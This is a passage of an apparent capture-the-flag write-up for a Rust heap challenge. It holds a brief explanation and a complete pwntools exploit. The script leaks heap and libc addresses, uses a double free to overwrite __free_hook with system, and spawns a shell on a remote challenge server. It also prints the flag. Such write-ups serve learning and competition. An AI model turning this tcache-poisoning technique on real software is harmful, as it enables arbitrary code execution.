 After some trial and error ( allocating random size of chunk, freeing random arbitrary address, ...etc), we eventually create a chunk point to `free_hook - 0x18` in tcache @ 0x40 with the double free vulnerability. We then create a magic box with `system`'s address as `num1`, so later when program assign `num1` to magic box, it'll overwrite `free_hook` to `system`, and spawn a shell while freeing our user name.

Final exploit:

```python
#!/usr/bin/env python

from pwn import *

# de1ctf{SOMEt1mes_Rust_1S_Vu1ner4bL3_56a61969}

libc = ELF("./libc-2.27.so")

def create(name, nums):
    r.sendlineafter("exit\n", "1")
    r.sendlineafter("name:", name)
    for i in xrange(4):
        r.sendlineafter(":", str(nums[i]))

def show():
    r.sendlineafter("exit\n", "2")

def edit(name, nums):
    r.sendlineafter("exit\n", "3")
    r.sendlineafter("name:", name)
    for i in xrange(4):
        r.sendlineafter(":", str(nums[i]))

def magic(cmd):
    r.sendlineafter("exit\n", str(cmd))

if __name__ == "__main__":

    r = remote("207.148.126.75", 60001)

    # leak heap
    magic(1312)
    show()
    r.recvuntil("S(")
    heap = int(r.recvuntil(",").strip(",")) - 0xa40
    
    # leak libc
    edit("E"*0x40, [heap+0x2c8, heap+0x2d10, 102, 103])
    magic(1313)
    magic(1314)
    show()
    r.recvuntil("boom(")
    libc.address = u64(r.recv(6).ljust(8, "\x00")) - 0x3ec680
    free_hook = libc.symbols.__free_hook

    # overwrite free_hook and get shell
    create("f"*0x8, [200, 201, 202, 203])
    create("g"*0x8, [300, 301, 302, free_hook-0x18]) # now free_hook-0x18 will be in 0x40 tcache
    create("i"*0x38, [400, 401, 402, 403])
    create("sh\x00", [500, 501, 0x80, heap+0x490])
    create("Z"*0x8, [ libc.symbols.system, 601, 602, 603]) # this will overwrite free_hook to system
    r.interactive()
```
